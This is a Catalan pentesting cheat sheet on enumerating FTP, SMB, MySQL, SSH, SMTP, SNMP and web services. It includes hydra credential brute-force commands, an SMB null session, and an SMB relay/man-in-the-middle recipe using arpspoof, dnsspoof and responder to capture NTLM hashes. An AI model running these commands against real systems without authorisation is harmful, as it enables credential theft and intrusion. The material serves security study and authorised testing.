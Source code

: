 ## FTP
El servei de _File Transfer Protocol_, FTP, serveix per la transferència de fitxers entre dos hosts de diferent o mateixa xarxa, amb la forma client-servidor. És molt comú el seu ús en servidors que tinguin serveis web configurats, ja que d'aquesta manera es pot afegir, treure i modificar arxius del servidor web sense haver d'accedir directament al sistema i en un entorn "controlat". La informació no viatja xifrada, pel que es pot interceptar i llegir (sempre que no s'utilitzi SFTP, que afegeix una capa SSH), i normalment es necessiten credencials per poder accedir a la comunicació. 
La enumeració d'aquest servei es basa en:
- Provar si hi ha el login anònim activat
- Enumeració d'usuaris (si la versió ho permet)
- Cerca de vulnerabilitats associades
- Força bruta de credencials
- Fer un esquema de tots els directoris i fitxers
- Descarregar tots els arxius trobats
- Revisar la informació i les metadades de cada arxiu
```bash
ftp [ip] [port] # Anonymous login
	Username: 'anonymous'
	Password: ''

hydra -L [user file] -P [pass file] ftp://[ip] # Força bruta de credencials

# FTP Commands:
ls # llistar arxius del directori
cd [directori] # canviar de directori
mget * # descarregar tots els arxius
get [arxiu] # descarregar un sol arxiu
```
## SMB
És un protocol de client-servidor molt semblant a FTP en funcionalitat però que només opera en xarxes locals. La seva funció principal és la de transferència d'arxius i directoris però també s'encarrega de l'intercanvi d'informació entre diferents processos del sistema i en la gestió de recursos de xarxa com impresores o enrutadors. Al llarg de la seva història, ha tingut diferents versions que han augmentat la seva seguretat i operativitat, sent la més recent la versió 3.1.1, de 2015. Requereix autenticació pel seu ús, tot i que les versions més antigues potser permeten una sessió nul·la, i cada usuari té uns "shares", uns directoris compartits, que poden ser privats o compartits amb altres usuaris. 
L'enumeració d'aquest servei es basa en:
- Provar un inici amb sessió nul·la
- Enumerar usuaris
- Enumerar shares
- Cerca de vulnerabilitats associades
- Força bruta de credencials
- Fer un esquema de tots els directoris i fitxers
- Descarregar tots els arxius trobats
- Revisar la informació i les metadades de cada arxiu
```bash
smbclient -L [ip] # NULL Session attack

smbmap -p [pass] -u [user] -H [host] # Llistar shares

smbclient \\\\[ip]\\share # Connectar-se a SMB

rpcclient -U [DOMINI/USER%PASS] [HOST] # Connectar-se a RPCclient

enum4linux -a [host] # Automatitza l'enumeració a través de rpcclient

# SMB Commands:
dir [directori] # canviar de directori
ls # llistar arxius del directori
get [arxiu] # descarregar un arxiu
mget * # descarregar tots els arxius
```
##### SMB Relay Attack
Si no hi ha activada la signatura dels missatges, és possible interceptar tot el tràfic SMB, inclús els missatges d'autenticació, i obtenir hashes NTLM amb els quals poder-se autenticar. Els passos per fer aquest atac són:
1. Fer-se passar pel servidor SMB a través d'ARP Spoofing i DNS Poisoning
2. Interceptar un missatge d'autenticació
3. Reenviar aquesta autenticació al servidor legítim
4. Accedir al servei SMB
```bash
# Crear un DNS Responder propi
echo "[local-ip] *.[domini]" > [arxiu]
dnsspoof -i [iface] -f [arxiu]

# MiTM entre la gateway i la víctima
echo 1 > /proc/sys/net/ipv4/ip_forward # Activar redireccionament IP
arpspoof -i [iface] [gateway_ip] [victima_ip] # Entre gateway i victima
arpspoof -i [iface] [victima_ip] [gateway_ip] # Entre víctima i gateway

# Captura el tràfic SMB (NTLM Hash)
responder -I [iface] -v
```
## MySQL
Sistema de gestió de bases de dades relacional. Tot i que no és l'únic i és possible trobar-ne d'altres i d'altres tipus, MySQL és el més comú, ja que és de codi obert. Normalment està configurat per operar en el port 3306 del localhost, pel que no es pot accedir des d'un host extern i la seva enumeració correspon més a la part de post-explotació, tot i que és possible que s'hi pugui accedir remotament en certs casos, per necessitat del propi sistema.
L'enumeració consisteix en:
- Força bruta de credencials
- Cercar vulnerabilitats de la versió utilitzada
- Provar l'accés remot
- Credencials per defecte
- Força bruta de l'usuari root (usuari per defecte)
```bash
mysql -u [usuari] -p # -p de prompt per la contrasenya
hydra -L [user_file] -P [pass_file] mysql://[host] # Força bruta
hydra -l root -P [pass_file] mysql://[host] # Força bruta a l'usuari root
```
## SSH
_Secure SHell_ és un protocol que permet l'enviament de comandes a un host remote a través d'una connexió segura. Tot i que també té autenticació i encriptació per contrasenya, és molt comú que utilitzi claus amb criptografia asimètrica. A banda de l'execució remota de comandes, també ofereix la possibilitat de tunelitzar la connexió o redireccionar ports.
L'enumeració de SSH consisteix en:
- Cercar vulnerabilitats conegudes de la versió utilitzada
- Força bruta de credencials
```bash
hydra -L [user_file] -P [pass_file] ssh://[host]
```

## SMTP
És el protocol de transferència sobre el qual viatgen els correus electrònics a través d'Internet. Utilitza SSL o TLS per establir la connexió entre l'emissor i el receptor. Per entendre-ho, els servidors SMTP són com "les oficines de Correus de la informàtica". És possible connectar-se directament al servidor SMTP i enumerar la següent informació:
- Correus vàlids
- Capacitats del servidor
Fins i tot, si ho permet la configuració, es pot utilitzar el servidor per enviar correus amb el seu propi domini i una adreça arbitrària.
```bash
nc [domini] [port_SMTP]

smtp-user-enum [wordlist] -t [domini] # Enumeració de correus

# Si permet la connexió:
VRFY [correu] # Si existeix el correu especificat
HELO || EHLO [domini] # Llistar capacitats del servidor
# Per enviar un correu:
HELO [domini]
mail from: [adreça]
rcpt to: [adreça]
data
[data]
#Per acabar la data
LF #Nova línia (Line Feed)
.
LF
```
## SNMP
_Simple Network Management Protocol_, encarregat de la gestió i monitorització de la transferència d'informació en xarxes LAN. Permet recopilar tota la informació sobre els dispositius connectats a la xarxa, pel que és bastant útil per enumerar el host. 
En la primera versió, hi ha una mena d'autenticació a través d'una "community string", necessària per l'enumeració, i en les versions posteriors es va introduir l'autenticació amb credencials d'usuari i contrasenya.
Es pot enumerar, d'aquest servei:
- Sistemes (amb SNMP activat)
- Configuració de la xarxa
- Usuaris i grups
- Informació del sistema
- Serveis i aplicacions
```bash
hydra -P [wordlist] snmp://[host] # Força bruta de community string
snmpwalk -v[versió] -c [community string] [host] # Enumeració
```
## Web Service
Els serveis web són un dels objectius més comuns, ja que es troben accessibles de forma pública i fàcil, a través de qualsevol navegador. Les principals vulnerabilitats que es poden trobar són:
- XSS
- SQLi
- CSRF
- Misconfiguracions
- Exposició d'informació sensible
- Força bruta
- Pujada de fitxes arbitraris
- DoS i DDoS
- SSRF
- Control d'Accés inadequat
- Vulnerabilitats d'aplicacions de tercers